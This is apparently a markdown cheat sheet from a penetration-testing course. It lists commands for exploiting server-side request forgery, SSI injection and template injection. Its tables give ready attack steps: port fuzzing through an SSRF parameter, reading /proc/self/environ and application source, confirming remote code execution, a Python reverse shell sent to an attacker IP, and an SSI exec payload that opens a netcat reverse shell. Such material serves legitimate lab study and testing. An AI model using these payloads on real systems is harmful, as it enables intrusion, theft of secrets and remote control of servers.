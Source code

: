 | `for port in {1..65535};do echo $port >> ports.txt;done`                                                          | Generating a wordlist of possible ports                                        |
| `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`                            | Fuzzing for ports on the internal interface                                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`                                                    | Interacting with the internal interface on the discovered port                 |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`                              | Interacting with the internal application                                      |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`                      | Discovering web application listening in on localhost                          |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"`                   | Modifying the URL to bypass the error message                                  |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -`       | Requesting to disclose the /proc/self/environ file on the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"`        | Retrieving a local file through the target application                         |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"` | Confirming remote code exeuction on the remote host                            |
| `sudo apt-get install jq`                                                                                         | Installing jq                                                                  |

### Blind SSRF Exploitation Example

| **Command**                                                                                                                                                                                                                        | **Description**                                  |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| `nc -lvnp 9090`                                                                                                                                                                                                                    | Starting a netcat listener                       |
| `echo """<B64 encoded response>""" \| base64 -d`                                                                                                                                                                                   | Decoding the base64 encoded response             |
| `export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'` | Reverse shell payload (to be URL encoaded twice) |

### SSI Injection Exploitation Example

| **SSI Directive Payload**                                                                                   | **Description** |
| ----------------------------------------------------------------------------------------------------------- | --------------- |
| `<!--#echo var="DATE_LOCAL" -->`                                                                            | Date            |
| `<!--#printenv -->`                                                                                         | All variables   |
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo\|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` | Reverse Shell   |

### SSTI Exploitation Example 1

| **Command**                                                                                              | **Description**                                                                                                    |
| -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| `git clone https://github.com/epinna/tplmap.git`                                                         | Cloning the tplmap repoistory                                                                                      |
| `cd tplmap`                                                                                              | Navigating to the new directory                                                                                    |
| `pip install virtualenv`                                                                                 | Installing the virtual environment with pip                                                                        |
| `virtualenv -p python2 venv`                                                                             | Creating a virtual environment named venv with python2                                                             |
| `source venv/bin/activate`                                                                               | Activating a Python virtual environment, configuring the shell to use the virtual environment's Python interpreter |
| `pip install -r requirements.txt`                                                                        | Installing dependencies                                                                                            |